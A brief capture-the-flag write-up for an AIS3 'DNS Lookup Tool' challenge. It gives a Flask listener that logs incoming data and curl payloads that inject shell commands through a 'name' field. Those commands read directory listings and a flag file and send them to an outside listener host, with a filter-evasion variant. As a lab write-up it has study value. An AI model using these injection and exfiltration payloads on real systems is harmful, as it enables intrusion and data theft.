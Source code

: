 ## DNS Lookup Tool: Final
![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/525b06b2-d309-47a2-976d-70058bd30fb4)

### exploit
```python
#!/usr/bin/env python3

from flask import Flask,request,redirect,Response


app = Flask(__name__)

@app.route('/',methods=['GET', 'POST'])
def root():
    print(request.stream.read().decode())
    return "com"

@app.route('/<path:data>',methods=['GET'])
def run(data):
    print(data)
    return "com"

if __name__ == "__main__":
    app.run(host="::", port=80)
```

### payload
```bash
curl http://10.105.0.21:21520/ -d 'name=example.$(curl 10.105.2.22 -d "$(ls /)")'

curl http://10.105.0.21:21520/ -d 'name=example.$(curl 10.105.2.22 -d "$(cat /flag_SWeUMks9hGYFciax)")'

curl http://10.105.0.21:21520/ -d 'name=example.$(curl 10.105.2.22 -d "$(cat /$(echo f)lag_SWeUMks9hGYFciax)")'
```

### Flag
![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/481aad11-e682-4ccc-8333-a8f3f62d337e)

`AIS3{jUsT_3@$y_cOMmAnD_INJEc7ION}`
